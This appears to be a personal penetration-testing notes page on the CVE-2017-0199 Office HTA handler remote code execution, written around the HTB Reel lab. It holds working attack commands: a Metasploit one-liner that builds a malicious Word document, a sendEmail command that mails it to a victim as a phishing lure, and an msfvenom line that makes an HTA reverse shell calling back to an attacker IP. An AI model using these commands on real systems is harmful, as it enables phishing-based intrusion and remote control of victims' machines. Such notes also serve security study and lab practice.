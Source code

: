 ```yaml
---
layout: post
title: HTA Handler RCE (CVE-2017-0199)
description: HTA Handler RCE (CVE-2017-0199)
summary: HTA Handler RCE (CVE-2017-0199)
tags: [rce,windows,foothold]
minute: 2
---
```

## Overview
1. Attacker sends document with OLE to victim
2. Victim clicks document (or download attachment from email)
3. Document sends GET request to attacker IP to download a malicious HTA file. Once this file is downloaded, victim machine executes it due to logic bug of `mshta.exe`.

## Exploits
* [CVE-2017-0199: In the Wild Attacks Leveraging HTA Handler - Mandiant](https://www.mandiant.com/resources/cve-2017-0199-hta-handler) - using RTF and Word documnets
* [CVE-2017-0199: New Malware Abuses PowerPoint Slides](https://www.trendmicro.com/en_sg/research/17/h/cve-2017-0199-new-malware-abuses-powerpoint-slide-show.html)

## Tools
* [CVE-2017-0199 Python exploit toolkit](https://github.com/bhdresh/CVE-2017-0199)

![](/spindel/assets/HTA%20Handler%20RCE%20(CVE-2017-0199)/Scenario1.jpg)

* Metasploit

```bash
# Generate document and run webserver
msfconsole -x "use windows/fileformat/office_word_hta; set srvhost tun0; set filename Procedures.doc; set lhost tun0; run"

# Send generated document to victim and wait for the reverse
# connection in metasploit
sendEmail -t nico@megabank.com -f hacker@kali.com -s reel:25 -u Procedures -o tls=no -a /home/kali/.msf4/local/Procedures.doc -m "See attachment for procedures"
```

## Troubleshooting
The python exploit in github didnt worked for me. When I tried to see in wireshark the network connections, I saw that victim did a `GET` request to attacker, but attacker didnt respond back. Probably there is something wrong on http server implemention?

From other writeups, they didnt use the http server that comes up with the exploit kit but instead they used their own http server.

## Alternatives
* You can generate HTA file via this methods

```bash
# msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f hta-psh -o msfv.hta

# via nishang
https://www.youtube.com/watch?v=ob9SgtFm6_g&t=794s
```

## References
* HTB Reel
* [CVE-2017-11826 Exploited in the Wild with Politically Themed RTF Document](https://www.fortinet.com/blog/threat-research/cve-2017-11826-exploited-in-the-wild-with-politically-themed-rtf-document)  - maybe also related as this is an RTF exploit
